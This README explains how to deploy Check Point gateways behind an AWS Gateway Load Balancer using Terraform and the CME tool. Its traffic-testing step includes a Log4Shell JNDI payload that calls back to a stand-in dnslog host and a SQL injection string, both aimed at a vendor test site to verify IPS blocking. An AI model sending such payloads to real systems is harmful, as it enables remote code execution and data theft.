 # Deploy GWLB load-balanced Check Point Security Gateways into centralized Security VPC

## Goals

### Architecture

Ilustration picture:
![](2023-02-07-08-53-48.png)

## Steps

### 1. AWS Cloud Shell
Open [AWS CloudShell](https://eu-central-1.console.aws.amazon.com/cloudshell/home?region=eu-central-1#) in your region.

### 2. Make sure Terraform is available
```bash
git clone https://github.com/tfutils/tfenv.git ~/.tfenv
mkdir ~/bin
ln -s ~/.tfenv/bin/* ~/bin/
tfenv install
tfenv use
terraform -version
```

### 3. Clone repo
```bash
git clone https://github.com/mkol5222/tf-security-vpc.git ~/tf-security-vpc

cd ~/tf-security-vpc
```

### 4. Build test environment VPC

Review inputs
```
cd ~/tf-security-vpc/01-test-env/
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 5. Place instances to TGW attachment subnets
Collect inputs
```
(cd ~/tf-security-vpc/01-test-env/; terraform output)
```

Set inputs
* *vpc_id* and *region*
* *subnets_ids_list*
```
cd ~/tf-security-vpc/02-instances
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 6. Deploy GWLB and Check Point Security Gateways in ASG
Collect inputs
```
(cd ~/tf-security-vpc/01-test-env/; terraform output)
```

Set inputs
* *vpc_id* 
* *region*
* *chkp_gw_subnet_ids_list*
* *chkp_gwlbe_subnets_ids_list*
```
cd ~/tf-security-vpc/03-chkp-gwlb
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 7. Check Point Management side
Learn CME provisioning command
```
(cd ~/tf-security-vpc/03-chkp-gwlb/; terraform output -json | jq -r '."cme-command".value')
```

Make sure CME is installed and login to CHKP Management server to run this command. Command looks like:
```
autoprov_cfg -f init AWS -ak AKIAZTAmodified -sk /MNFoeHQdbTBVnammodified -mn chkp-mgmt -tn chkp-gwlb-template -cn gwlb-controller -po Standard -otp Vpn12modified -r eu-central-1 -ver R80.40
```

Enable additional blades -  e.g. Identity Awareness and IPS:
```
autoprov_cfg set template -tn chkp-gwlb-template -ips
autoprov_cfg set template -tn chkp-gwlb-template -ia
```

### 8. Monitor CME provisioning on Management Server

Open SmartConsole and monitor Gateways section for ASG instances to appear and to be provisioned with policy.

Monitor CME progress in CME log on CHKP Management:
```
 tail -f /var/log/CPcme/cme.log
```

### 9. Route traffic through GWLBe

In [route tables for TGW attachment subnets](https://eu-central-1.console.aws.amazon.com/vpc/home?region=eu-central-1#RouteTables:search=tgw), route via GWLBe instead of NAT Gateway. Route to GWLBe in same AZ.

In [route tables for NAT Gateways](https://eu-central-1.console.aws.amazon.com/vpc/home?region=eu-central-1#RouteTables:search=chkp-nat), route back to TGW attachment subnet in same region via GWLBe in same region.

There are even some helper commands:
```
terraform output -raw cmd_fw_on

terraform output -raw cmd_fw_off

# or even
terraform output -raw cmd_fw_on | bash
```

### 10. Test traffic from instances in TGW attachment subnet

Connect to instances using Session Manager and initiate traffic to Internet (*curl*, *ping*, etc.). Monitor Check Point logs.

Keep connecting and report egress IP. Run on instance in TGW attachment subnet.
```
while true; do I=$(curl -s ip.iol.cz/ip/); echo $I; done
```

Other example:
```
while true; do date; ping -c 3 1.1.1.1; echo; done
```

Cause IPS incidents (should be prevented/catched by IPS if configured):
```
curl --ipv4 http://www.cpcheckme.com/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}' -v

curl --ipv4 'http://www.cpcheckme.com/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details'
```

## Various materials

* Check Point Cloud Management [Admin Guide](https://sc1.checkpoint.com/documents/IaaS/WebAdminGuides/EN/CP_CME/Content/Topics-CME/Overview.htm)
* Check Point CloudGuard Controller [Admin Guide](https://sc1.checkpoint.com/documents/R81.10/WebAdminGuides/EN/CP_R81.10_CloudGuard_Controller_AdminGuide/Topics-CGRDG/Introduction.htm)
* Check Point CGNS TerraForm modules [GitHub repo](https://github.com/CheckPointSW/CloudGuardIaaS/tree/master/terraform/aws)
* CGNS AWS Gateway LoadBalancer - Deep Dive Webinar [materials](https://community.checkpoint.com/t5/Cloud-Network-Security/AWS-Gateway-LoadBalancer-Deep-Dive-Webinar/td-p/117827) and [diagram](https://community.checkpoint.com/t5/Cloud-Network-Security/The-Workshop-AWS-Gateway-LoadBalancer-amp-CloudGuard-Network/td-p/145715)
* AWS workshop on CHKP CGNS with GWLB with [traffic flows](https://checkpoint.awsworkshop.io/02handsonflows/3_centegress.html)
